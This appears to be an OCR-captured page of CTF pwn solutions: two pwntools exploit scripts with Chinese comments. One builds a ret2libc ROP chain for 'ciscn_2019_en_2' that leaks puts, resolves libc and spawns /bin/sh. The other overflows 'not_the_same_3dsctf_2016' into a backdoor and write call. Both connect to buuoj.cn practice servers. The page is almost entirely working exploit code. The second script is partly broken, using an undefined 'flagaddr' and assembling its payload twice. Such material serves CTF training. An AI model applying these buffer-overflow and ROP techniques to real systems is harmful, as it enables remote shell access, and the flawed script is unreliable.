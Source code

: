 

## ciscn_2019_en_2

from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
ret = 0x4006b9      #靶机是ubuntu，所以需要栈平衡
elf = ELF('pwn1')
puts_plt = elf.plt["puts"] 
puts_got = elf.got['puts']
main_addr = elf.symbols["main"]
pop_rdi_ret = 0x400c83      #×64程序基本都存在的一个地址pop rdi；ret
p = remote('node4.buuoj.cn',25016)
payload = b'a' * (0x50 + 8)
payload = payload + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
	print(payload)
p.sendlineafter('Input your choice!\n', '1')
p.sendlineafter('Input your Plaintext to be encrypted\n', payload)
p.recvuntil('Ciphertext\n')	
p.recvline()
puts_addr = u64(p.recv(7)[:-1].ljust(8,b'\x00'))
print(puts_addr)      #找出puts的地址
libc = LibcSearcher('puts', puts_addr)
libc_base   = puts_addr - libc.dump('puts')      #找出函数地址偏移量
system_addr = libc_base + libc.dump('system')      #计算出system的在程序中的地址
binsh_addr  = libc_base + libc.dump('str_bin_sh')	
payload = b'a' * (0x50 + 8)
payload = payload + p64(ret) + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr)
p.sendlineafter('Input your choice!\n', '1')
p.sendlineafter('Input your Plaintext to be encrypted\n', payload)
p.interactive()

## not_the_same_3dsctf_2016

from pwn import *
elf = ELF("./not_the_same_3dsctf_2016")
io = remote("node4.buuoj.cn",28787)
io = process("./not_the_same_3dsctf_2016")
backdoor_addr = 0x080489A0
str_flag_addr = 0x080ECA2D
printf_addr = 0x0804F0A0
write_addr = elf.symbols['write']
exit_addr = elf.symbols['exit']
print(hex(write_addr))
这个main函数没有push ebp 所以不用再覆盖4字节的ebp
payload = 0x2D * b'a' + p32(backdoor_addr) + p32(write_addr) + p32(exit_addr) + p32(1) + p32(str_flag_addr) + p32(45)#覆盖了栈，没有覆盖ebp，原因是不存在ebp，字符串空间的底部就是函数的返回地址覆盖返回地址，返回到get_secret函数从get_secret函数返回到write函数#exit位置是write的返回的值，没什么用，随便填
payload += p32(1)           # write函数的第一个参数，是 文件描述符；
payload += p32(flagaddr)    # write函数的第二个参数，是 存放字符串的内存地址；
payload += p32(42)          # write函数的第三个参数，是 打印字符串的长度
io.sendline(payload)
io.interactive()
io.close()
